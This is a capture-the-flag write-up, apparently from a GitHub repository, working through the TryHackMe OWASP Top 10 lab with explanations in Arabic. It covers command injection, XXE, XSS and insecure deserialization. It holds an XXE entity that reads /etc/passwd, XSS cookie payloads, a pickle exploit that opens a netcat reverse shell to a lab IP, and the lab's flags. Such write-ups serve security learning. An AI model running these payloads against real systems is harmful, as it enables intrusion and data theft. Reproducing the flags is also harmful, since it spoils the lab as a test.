 # OWASP Top 10

<details>
  <summary>[Severity 1] Command Injection Practical</summary>

> What strange text file is in the website root directory?

```
$ ls
```

```
css
drpepper.txt
evilshell.php
index.php
js 
```

> How many non-root/non-service/non-daemon users are there?  how to know that in linux

```
getent passwd | awk -F: '$3 >= 1000 && $7 != "/usr/sbin/nologin" && $7 != "/bin/false" && $1 != "nobody" {print $1}' | wc -l
```

```
0
```

> What user is this app running as?

```
$ whoami
```

```
www-data 
```

> What is the user's shell set as?

```
getent passwd www-data | cut -d: -f7
```

> What version of Ubuntu is running?

```
$ cat /etc/os-release
```

```
18.04.4 
```

> Print out the MOTD.  What favorite beverage is shown?

```
$ cat drpepper.txt
```

```
I love Dr Pepper 
```

</details>


<details>
   <summary>[Severity 2] Broken Authentication Practical</summary>


> What is the flag that you found in darren's account?

- if you try to rigister using ``darren``
  - user already exist
- now register using ``darren   `` and login you will found the flag

> do same to ``auther``





  
</details>



<details>
  <summary>[Severity 3] Sensitive Data Exposure (Challenge)</summary>

![image](https://github.com/user-attachments/assets/3998c50c-5e62-4c36-9e2d-d57e48981a08)


![image](https://github.com/user-attachments/assets/c32a4e6e-078b-4396-a759-683fd515eff1)


![image](https://github.com/user-attachments/assets/8f486f43-09ad-414f-b40a-2c12b57fd2de)

```
��������tablesessionssessionsCREATE TABLE sessions(
sessionID TEXT NOT NULL UNIQUE,
userID TEXT NOT NULL,
expiry INT NOT NULL,
PRIMARY KEY (sessionID))/Cindexsqlite_autoindex_sessions_1sessions�*�'�-tableusersusersCREATE TABLE users(
userID TEXT NOT NULL UNIQUE,
username TEXT NOT NULL UNIQUE,
password TEXT NOT NULL,
admin INT NOT NULL,
�h��GKHMMEY(user23023b67a32488588db1e28579ced7ecBobad0234829205b9033196ba818f7a872bJM4e8423b514eef575394ff78caed3254dAlice268b38ca7b84f44fa0a6cdc86e6301e0JMM   4413096d9c933359b898b6202288a650admin6eea9b7ef19179a06954edd0f6c05ceb
����mH%%$M23023b67a32488588db1e28579ced7ec$M4e8423b514eef575394ff78caed3254d#M  4413096d9c933359b898b6202288a650
�J����  Bob     Alice   admin
�$                              
```
> admin password hash is

```
6eea9b7ef19179a06954edd0f6c05ceb
```

> crack it on crackstation

```
qwertyuiop
```

```
THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
```


</details>



<details>
    <summary>[Severity 4 XML External Entity - eXtensible Markup Language</summary>

## 📏 القواعد المهمة في كتابة XML (Syntax Rules)

| القاعدة                                          | الشرح                                                |
| ------------------------------------------------ | ---------------------------------------------------- |
| 🔸 كل XML لازم يكون عنده عنصر جذر (Root Element) | مثل `<data>...</data>`                               |
| 🔸 XML حساس لحالة الأحرف                         | `<To>` ≠ `<to>`                                      |
| 🔸 لازم تغلق كل العناصر                          | `<tag></tag>` أو باستخدام self-closing مثل `<tag />` |
| 🔸 القيم النصية يجب أن تُحاط بعلامات اقتباس      | `<tag attr="value">`                                 |
| 🔸 لا يوجد عناصر غير مغلقة مثل HTML              | (ما في `<br>` بس في `<br/>`)                         |




## 📋 مثال شامل:

```
<?xml version="1.0" encoding="UTF-8"?>
<bookstore>
  <book category="programming">
    <title lang="en">Learn XXE</title>
    <author>Cyber Falcon</author>
    <year>2025</year>
    <price>0.00</price>
  </book>
</bookstore>
```

---

📎 DTD (Document Type Definition)
هنا يبدأ الموضوع يكون خطير، لأننا راح نستخدم DTD في استغلال XXE لاحقًا.

إيش هو DTD؟
هو تعريف هيكل وهيئة المستند XML، ويقدر يحتوي على:

تعريف العناصر

السماح بالكيانات الخارجية (External Entities)

مثال DTD داخلي:


```
<!DOCTYPE mail [
  <!ELEMENT mail (to, from, subject, text)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT subject (#PCDATA)>
  <!ELEMENT text (#PCDATA)>
]>
```


☠️ لكن هنا الخطورة:
DTD يسمح بتعريف كيان خارجي External Entity زي كذا:



```
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

----

![image](https://github.com/user-attachments/assets/ef843c7a-364d-49dd-b57b-241504ee501b)


--- ---
---
---

🧱 مثال توضيحي:
ملف DTD داخلي:

```
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

XML يستند عليه:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

🧠 شرح مفصل لكل سطر في DTD:

| السطر                                    | المعنى                                                                               |
| ---------------------------------------- | ------------------------------------------------------------------------------------ |
| `<!DOCTYPE note [...]>`                  | يعرّف أن الجذر (Root Element) اسمه `note`                                            |
| `<!ELEMENT note (to,from,heading,body)>` | عنصر `note` لازم يحتوي بالترتيب على العناصر الأربعة: `to`, `from`, `heading`, `body` |
| `<!ELEMENT to (#PCDATA)>`                | العنصر `to` يحتوي بيانات نصية قابلة للقراءة (Character Data)                         |
| `#PCDATA`                                | اختصار لـ: **Parsed Character Data** → يعني نص يتم تفسيره                            |
| باقي العناصر (`from`, `heading`, `body`) | كلهم زي `to`، يحتوي بيانات نصية فقط                                                  |



🔎 أنواع البيانات في DTD:

| النوع      | الشرح                        |                                    |
| ---------- | ---------------------------- | ---------------------------------- |
| `#PCDATA`  | بيانات نصية قابلة للتحليل    |                                    |
| `EMPTY`    | العنصر لا يحتوي على أي محتوى |                                    |
| `ANY`      | العنصر ممكن يحتوي على أي شيء |                                    |
| \`(#PCDATA | element)\*\`                 | محتوى مختلط، ممكن يكون نص أو عناصر |



📦 أنواع DTD:


| النوع            | الوصف                                                |
| ---------------- | ---------------------------------------------------- |
| **Internal DTD** | يُكتب داخل ملف XML نفسه                              |
| **External DTD** | يُخزّن في ملف خارجي (`note.dtd`) ويتم ربطه بـ SYSTEM |



مثال ربط DTD خارجي:


```
<!DOCTYPE note SYSTEM "note.dtd">
```

🎯 ليش نستخدم DTD؟

- نتأكد أن ملف XML صحيح وصالح

- يسهل التعامل بين الأنظمة المختلفة

- أساس مهم في التحقق من الصيغة قبل استخدام XML في البرمجة أو المعالجة






## 🚨 ملاحظة أمان:
> لأن DTD يسمح بكيانات خارجية (<!ENTITY ... SYSTEM ...>)، نقدر نستغلها في هجمات XXE، وهذا بالضبط الي راح ندخله بعد ما نخلص الأساسيات.





![image](https://github.com/user-attachments/assets/c103f572-64be-44ed-8cde-fd16dffc6237)

---
---
---



🧪 أولًا: Payload بسيط (تعريف كيان داخلي)
💻 الكود:

```
<!DOCTYPE replace [
  <!ENTITY name "feast">
]>
<userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
</userInfo>
```

🔍 الشرح:
<!ENTITY name "feast"> ← بنعرّف كيان اسمه name وقيمته "feast".

&name; ← بنستخدم الكيان داخل العنصر <lastName>.

📌 النتيجة بعد تفسير XML:

```
<userInfo>
  <firstName>falcon</firstName>
  <lastName>feast</lastName>
</userInfo>
```

✅ ده مثال تعليمي على إزاي XML ممكن يستخدم كيانات (Entities)، لكن ما فيهوش اختراق.



---


💣 ثانيًا: Payload حقيقي لاستغلال XXE لقراءة ملفات
💻 الكود:

```
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY read SYSTEM "file:///etc/passwd">
]>
<root>&read;</root>
```

🔍 الشرح:
<!ENTITY read SYSTEM "file:///etc/passwd"> ← هنا بنعرّف كيان خارجي (External Entity) بياخد قيمة محتوى ملف من السيرفر.

&read; ← بيتم استدعاء الكيان داخل العنصر <root>.

📌 لو التطبيق فيه ثغرة XXE ومش عامل الحماية اللازمة:

الكود ده هيخلي التطبيق يفتح ملف /etc/passwd من نظام التشغيل ويعرضه لك!

``📂 /etc/passwd``:

هو ملف في نظام لينوكس يحتوي على معلومات المستخدمين، وغالبًا ما يُستخدم لاختبار وجود الثغرة.



⚠️ ملاحظات مهمة:

1- ✅ لازم التطبيق يسمح بقراءة DTD أو ما يكون فيه الحماية (زي منع الكيانات الخارجية).

2- ❌ لو التطبيق عامل hardening (زي في Java أو PHP الحديثة)، ممكن البايلود ما يشتغل.

3- 🔒 بعض الملفات ممكن تكون مقفولة أو require root access، فقراءتها هتفشل.



🎯 خلاصة:


| النوع               | الشرح                               | مثال                                         |
| ------------------- | ----------------------------------- | -------------------------------------------- |
| **Internal Entity** | كيان داخلي بقيمة ثابتة              | `<!ENTITY name "feast">`                     |
| **External Entity** | كيان بيروح يقرأ من ملف أو URL خارجي | `<!ENTITY read SYSTEM "file:///etc/passwd">` |





![image](https://github.com/user-attachments/assets/2a9efdc7-aa39-447e-9033-a32ff99570e3)



![image](https://github.com/user-attachments/assets/ec86f674-36f1-4b6b-83a8-ae0ce0b50105)

![image](https://github.com/user-attachments/assets/5cff94f1-2320-4729-8c58-96f05ba90a33)






   
</details>







<details>
  <summary>[Severity 5] Broken Access Control</summary>


![image](https://github.com/user-attachments/assets/43c12a69-d4e0-474c-96d8-da456d3ee971)





</details>



<details>
  <summary>[Severity 6] Security Misconfiguration</summary>


![image](https://github.com/user-attachments/assets/887466f1-854d-4700-b280-6adcc500f8aa)

![image](https://github.com/user-attachments/assets/7fb4eaac-2932-4fad-8f0d-eb4f871f48f5)


![image](https://github.com/user-attachments/assets/68a62ce1-fd7c-4ae7-bc98-250cb8f8dbe7)


</details>




<details>
  <summary>[Severity 7] Cross-site Scripting</summary>


![image](https://github.com/user-attachments/assets/22b11381-3913-455e-8e46-66d3107f048f)

``payload``

```
(<script>alert(“Hello”)</script>)
```

```
ThereIsMoreToXSSThanYouThink
```

![image](https://github.com/user-attachments/assets/57694080-3c94-4a8b-b669-2183cad419b8)


--- 

``payload``

```
<script>alert(window.location.hostname)</script>
```

```
ReflectiveXss4TheWin
```

![image](https://github.com/user-attachments/assets/e5a528ee-c948-4703-ad1a-ed054c5bba65)





---

![image](https://github.com/user-attachments/assets/ceb2c310-751e-4087-8007-4921572e8143)

``payload``

```
<img src="invalid-image" onerror="alert('Stored XSS!')">
```

```
HTML_T4gs
```

---



``payload``

```
<script>alert(document.cookie)</script>
```

```
W3LL_D0N3_LVL2
```

![image](https://github.com/user-attachments/assets/470ef965-7445-4e83-b3e1-b05e86355c72)


---



``payload``

```
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```

```
websites_can_be_easily_defaced_with_xss
```

![image](https://github.com/user-attachments/assets/8264f9e1-63c4-41ca-ba2c-e925c46b70a0)






  
</details>



<details>
  <summary>[Severity 8] Insecure Deserialization</summary>


<details>

🔐 إيه هي Insecure Deserialization؟
Deserialization معناها:
تحويل البيانات المخزنة في شكل ملف (زي JSON، أو Binary) إلى كائن (Object) في البرنامج عشان يشتغل عليه.

Insecure Deserialization يعني إن الهاكر يقدر يغير البيانات دي (اللي هتتحول لـ Object) ويحط فيها كود خبيث، وبعدين التطبيق ينفذه وهو فاكر إن دي بيانات عادية.

🧠 تخيل معايا السيناريو:
التطبيق بيبعت Object مشفّر للمستخدم (زي user settings).

المستخدم يعدل البيانات ويرجعها.

التطبيق يفك التشفير (deserialize) ويستخدمها مباشرة بدون تحقق.

لو المستخدم حاطت كود خبيث... التطبيق يشغّله 😱


----

----
----
---

في البرمجة الكائنية (OOP)، الكائن (Object) بيتكوّن من:

State (الحالة): يعني هو "عامل إزاي دلوقتي"، أو "شكله/قيمه".

Behaviour (السلوك): يعني "هو بيعمل إيه"، أو "الوظائف اللي بيقدر يعملها".




---
----
----
---

🔄 إيه هو الـ Serialization / Deserialization؟
خلينا نبدأ بالتشبيه الأول:

👤 السياح والخرائط:
تخيل سائح ضايع في بلدك، وبيسألك على طريق معلم مشهور. المشكلة؟ هو مش بيتكلم لغتك، وانت مش فاهم لغته. فإيه الحل؟
ترسم له خريطة 👣 — لأن الصور مفهومة لأي شخص، وفعلاً قدر يوصل!

🎯 في المثال ده:

إنت رسمت خريطة = Serialization ➡️ حولت معلومات (الطريق) إلى شكل بسيط (الخريطة).

السائح فهم الخريطة = Deserialization ➡️ رجّع الخريطة لمعلومة مفهومة (الطريق الحقيقي).

🧠 طب ده معناه إيه في البرمجة؟
🔹 Serialization:
هي عملية تحويل كائن (Object) في البرنامج (مثلاً بيانات مستخدم، أو رسالة، أو باسورد) إلى صيغة مبسطة زي:

JSON

XML

Binary

والسبب؟ علشان تقدر:

ترسلها عبر الشبكة

تخزنها في قاعدة بيانات

🔹 Deserialization:
هي العملية العكسية، ترجّع البيانات المبسطة دي لكائن كامل تاني في البرنامج علشان تشتغل عليه.

🎯 مثال بسيط:
عندك باسورد: "password123"

قبل ما يتبعت لقواعد البيانات أو عبر الإنترنت، لازم يتحوّل لصيغة بسيطة (مثلاً binary أو JSON).

أول ما يوصل، يتفك تاني ويرجع "password123".

💀 فين المشكلة (Insecure Deserialization)؟
لو الـ deserialization حصل من غير تحقق من البيانات، ممكن الهاكر يبعَت بيانات فيها كود خبيث!
ولأن البرنامج بيثق في البيانات دي، هينفّذها زي ما هي 🔥

🚨 والنتائج ممكن تكون:
🧨 DoS: الموقع ينهار

👾 RCE (Remote Code Execution): الهاكر يشغل أوامر على السيرفر

🕳️ التطبيقات المعرّضة للخطر:
أي تطبيق بيخزن/يسترجع بيانات بدون تحقق كويس. أمثلة:

مواقع التجارة الإلكترونية

المنتديات

الـ APIs

أنظمة زي: Jenkins, Tomcat, JBoss



🧠 الخلاصة:

| المصطلح                  | معناه                                                                  |
| ------------------------ | ---------------------------------------------------------------------- |
| Serialization            | تحويل كائن لبيانات بسيطة (مثلاً JSON أو Binary) علشان يتخزن أو يتنقل.  |
| Deserialization          | تحويل البيانات البسيطة لكائن برمجي تاني نقدر نشتغل عليه.               |
| Insecure Deserialization | استغلال البيانات دي عشان ننفذ كود خبيث بسبب عدم وجود تحقق أو فحص سليم. |





----
----
----
----



🍪 إيه هي الـ Cookies؟
الكوكيز (Cookies) هي قطع صغيرة من البيانات بيخزنها الموقع على جهازك، والغرض منها هو تذكر معلومات عنك لما تتصفح أو ترجع للموقع تاني.

✅ ليه المواقع بتستخدم الكوكيز؟
بعض الاستخدامات الشائعة:
🛒 حفظ محتويات السلة (في مواقع الشراء).

🔐 حفظ بيانات الجلسة (session ID) بعد تسجيل الدخول.

🌐 تخصيص تجربتك على الموقع (مثلاً تفضل اللغة العربية؟ الكوكيز تعرف ده).

📈 تتبع نشاط المستخدم (لأغراض تحليلية وإعلانات).

⚠️ المشكلة في المثال اللي فوق:
الموقع بيخزن بيانات تسجيل الدخول بشكل نصّي عادي (plaintext) جوه الكوكيز 😱
ودي ثغرة أمنية خطيرة لأن أي حد يقدر يقرأها أو يسرقها بسهولة من المتصفح.

لكن مهم نوضح:
🔸 دي مش ثغرة Insecure Deserialization لأننا مش بنرسل كائنات متسلسلة (serialized objects) يتم تنفيذها بعد كده.
هي مجرد بيانات محفوظة بشكل غير آمن.

⏳ مدة صلاحية الكوكيز (Expiry):
مش كل الكوكيز بتفضل محفوظة دايمًا.

Session cookies: بتتحذف لما تقفل المتصفح.

Persistent cookies: بتفضل محفوظة لفترة، حسب التاريخ والوقت اللي بيتحدد في خاصية "Expiry".





⚙️ خصائص الكوكيز المهمة:


| الخاصية      | الوصف                                                       | مطلوب؟ |
| ------------ | ----------------------------------------------------------- | ------ |
| Cookie Name  | اسم الكوكي                                                  | ✔️ نعم |
| Cookie Value | القيمة اللي الكوكي بتخزنها (ممكن تكون نص، Base64، إلخ)      | ✔️ نعم |
| Secure Only  | لو اتفعلت، الكوكي ده هيتبعت فقط في الاتصالات الآمنة (HTTPS) | ❌      |
| Expiry       | الوقت اللي الكوكي هينتهي فيه ويتحذف من المتصفح              | ❌      |
| Path         | الكوكي ده هيتبعت فقط لو رابط الصفحة ضمن المسار المحدد       | ❌      |










  
</details>



![image](https://github.com/user-attachments/assets/ecf27e99-05da-4a48-80f0-660695602848)

change ``suertype`` to ``admin``

![image](https://github.com/user-attachments/assets/a00e66b5-9774-4844-b8c8-1412c5091bc2)

``sessionID``

```
gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAMDEyOGVlMzZkYmY1NDE2N2E2YmRiN2IxYjllOTUxYjFxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==
```

![image](https://github.com/user-attachments/assets/7a25b12c-b824-49a2-af98-0b558a8e6dfe)

```
THM{good_old_base64_huh}
```

---
---


![image](https://github.com/user-attachments/assets/7c64eb15-c87a-4f9f-a71d-8d9b7913b1e4)


```
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.8.47.102 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))     
```

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuOC40Ny4xMDIgNDQ0NCA+IC90bXAvZpSFlFKULg==
```




  
</details>


























